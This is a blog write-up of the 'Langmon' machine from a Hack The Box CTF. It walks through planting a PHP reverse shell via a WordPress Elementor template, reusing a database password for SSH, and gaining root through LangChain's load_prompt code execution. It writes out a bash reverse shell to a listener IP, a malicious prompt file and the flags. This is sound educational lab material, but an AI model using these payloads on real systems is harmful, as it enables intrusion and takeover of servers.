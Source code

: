 ```yaml
---
layout: post
title:  "HTB Business CTF 2023 - Langmon writeup"
date:   2023-07-17 00:00:00 +0300
categories: HTB_Business_CTF_2023 CTF FullPwn HTB
summary: Writeup for the Langmon challenge from HTB's Business CTF from 2023. This challenge involved exploiting a wordpress exploit and a langmon exploit.
---
```



Langmon was a challenge at the HTB Business CTF 2023 from the 'FullPwn' category.  
It involved a VM structured like a usual HTB machine with a user flag and a root flag.  
Its difficulty level was 'Very Easy' & it was mostly based on finding simple vulnerabilities and exploiting them.  

### Recon & identifying the service

After spawning the target, I only got an IP address and no specific port so the first step was to run a port scan & see what services are listening.  
There were 2 open ports:
- 22 - a ssh service
- 80 - a web app

The SSH service doesn't show any hint that it could be abused.  
So, I started with the web server.

### Web app

On port 80, I found a web page.

![The main web page]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/web_page.png){: .center-image}

After inspecting it, I noticed that it is built using Wordpress. I also found the wp-login page.  

![The login page]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/wp_login.png){: .center-image}

Running wpscan on this doesn't return anything interesting, so I continued by manually exploring this app.  

By accessing /wp-json/wp/v2/users, I could see that the only user is 'admin'. This might be useful if for a brute-force attack later (maybe?).  

![Wordpress users]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/wp_users.png){: .center-image}

I also found the sitemap for this web application.

![Wordpress users]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/sitemap.png){: .center-image}

The most interesting part here is the registration page. I went there and tried to create a new account.  

![Registration]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/register.png){: .center-image}

After creating a new account, I was able to access the wordpress dashboard (as a regular user).  
However, I was unable to post anything without the admin reviewing it first.  

It looks like I could also create templates, not just posts.  
However, those also have to be admin-approved.
![Creating templates]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/templates_01.png){: .center-image}

While looking at the options available for a regular user when creating templates, I noticed that I can use the Elementor plugin in order to make it easier to create templates and pages.

![Using Elementor plugin]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/templates_02.png){: .center-image}

Also, that plugin allows for HTML / PHP blocks to be placed inside the pages or templates.  

![Inserting PHP]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/templates_03.png){: .center-image}

So ... what if I put a shell in there

![Preparing the reverse shell]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/shell_setup.png){: .center-image}

I pasted the contents of [this](https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/laudanum-0.8/php/php-reverse-shell.php) php reverse shell in there and clicked 'Apply'.  
It looks like my code gets executed after clicking 'Apply'. I could see that the shell was executed by checking on my listener.  

![First shell obtained]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/shell.png){: .center-image}

Now I have a shell as www-data.  
First, let's take a look at the wp-config file. It's always a good thing to check after obtaining access to a wordpress server. There might be some useful information in there.  

![Wordpress credentials]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/wp_credentials.png){: .center-image}

The database password is in there. It might be useful for connecting to the DB.  
Or, it might be re-used in other places.  

Let's check out what are the users available on this server.

![Users on the server]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/users.png){: .center-image}

Only 'developer' has a homedir, so that's probably the user that I want to login as.  
Let's check if the DB password isn't reused as the user's password too.  

![Logging in as developer]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/user_login.png){: .center-image}

And it works. I could also get the user flag for this machine: **HTB{4lw4y5_upd473_y0ur_plu61n5}**

![User flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/user_flag.png){: .center-image}

I had the user's password so I checked if I could use sudo for anything (`sudo -l`).  

![Running sudo]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/sudo.png){: .center-image}

The 'developer' user can run /opt/prompt_loader.py as root.  

prompt_loader.py is a python script that imports [langchain](https://python.langchain.com/docs/get_started/introduction.html) and then calls load_prompt on a file specified by the user.  
The load_prompt method is known to be vulnerable and can be used for arbitrary code execution. More details on that can be seen [here](https://github.com/hwchase17/langchain/issues/4849).  

First, I took the PoC from github issue and tried using that as the script's input.
![Running the PoC]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/running_poc.png){: .center-image}

It works and it runs as root.  

Now I have to change the payload and use it to get a shell.  
I'm not sure if this script could spawn an interactive shell, so I tried with a reverse shell.  
A bash reverse shell (`bash -i >& /dev/tcp/10.10.14.182/1337 0>&1`) wouldn't work (maybe I forgot to escape something?) so I put it in a file and ran the file instead.

So my final payloads are:

/tmp/shell.sh
{% highlight bash %}
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.182/1337 0>&1
{% endhighlight %}

/tmp/prompt.py
{% highlight python %}
from langchain.output_parsers.list import CommaSeparatedListOutputParser
from langchain.prompts.prompt import PromptTemplate
_DECIDER_TEMPLATE = """Given the below input question and list of potential tables, output a comma separated list of the table names that may be neccessary to answer this question.

Question: {query}

Table Names: {table_names}

Relevant Table Names:"""

import os
os.system('id')
PROMPT = PromptTemplate(
    input_variables=["query", "table_names"],
    template=_DECIDER_TEMPLATE,
    output_parser=CommaSeparatedListOutputParser(),
)
{% endhighlight %}

![Preparing the payload]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/payload.png){: .center-image}

And after running this (`sudo /opt/prompt_loader.py /tmp/prompt.py`) I could see a connection on my listener.

![Getting a root shell]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/root_shell.png){: .center-image}

And now I had a root shell on this machine.

![Getting the root flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/root_flag.png){: .center-image}

And I got the root flag for this machine: **HTB{7h3_m4ch1n35_5p34k_w3_h34r}**